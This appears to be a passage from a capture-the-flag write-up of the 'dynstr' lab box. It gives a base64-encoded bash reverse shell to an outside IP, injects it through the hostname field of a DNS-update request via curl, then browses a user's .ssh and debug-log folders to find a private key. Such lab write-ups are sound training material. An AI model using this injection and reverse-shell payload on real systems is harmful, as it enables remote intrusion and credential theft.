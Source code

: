 Getting reverse shell
```bash
echo "bash -i &> /dev/tcp/10.10.15.71/4141 0>&1" | base64   #encode reverse shell
echo+"YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNS43MS80MTQxIDA%2BJjEK"+|+base64+-d+|+bash    #payload

curl 'http://dynadns:sndanyd@dyna.htb/nic/update?hostname=`echo+"YmFzaCAtaSAmPiAvZGV2L3RjcC8xMC4xMC4xNS43MS80MTQxIDA%2BJjEK"+|+base64+-d+|+bash`".dnsalias.htb&myip=0.0.0.0'
```

![](/assets/img/posts/dynstr/rev_shell.png)

# Privesc

## DNS pointer record(PTR)

User "bindmgr" have .ssh directory which contains ssh key, but can't read private key.
```bash
(remote) www-data@dynstr.dyna.htb:/home/bindmgr/.ssh$ ls -l
total 16
-rw-r--r-- 1 bindmgr bindmgr  419 Mar 13 12:00 authorized_keys
-rw------- 1 bindmgr bindmgr 1823 Mar 13 11:48 id_rsa
-rw-r--r-- 1 bindmgr bindmgr  395 Mar 13 11:48 id_rsa.pub
-rw-r--r-- 1 bindmgr bindmgr  444 Mar 13 12:09 known_hosts
```

User's home directory contains some debug log in `/home/bindmgr/support-case-C62796521`
```bash
(remote) www-data@dynstr.dyna.htb:/home/bindmgr$ ls -l
total 8
drwxr-xr-x 2 bindmgr bindmgr 4096 Mar 13 14:53 support-case-C62796521
```

that folder contains some debug output in which, found private ssh key of user "bindmgr"
```bash
(remote) www-data@dynstr.dyna.htb:/home/bindmgr/support-case-C62796521$ ls -l 
total 428
-rw-r--r-- 1 bindmgr bindmgr 237141 Mar 13 14:53 C62796521-debugging.script
-rw-r--r-- 1 bindmgr bindmgr  29312 Mar 13 14:53 C62796521-debugging.timing
-rw-r--r-- 1 bindmgr bindmgr   1175 Mar 13 14:53 command-output-C62796521.txt
-rw-r--r-- 1 bindmgr bindmgr 163048 Mar 13 14:52 strace-C62796521.txt
```

![](/assets/img/posts/dynstr/private-rsa.png)
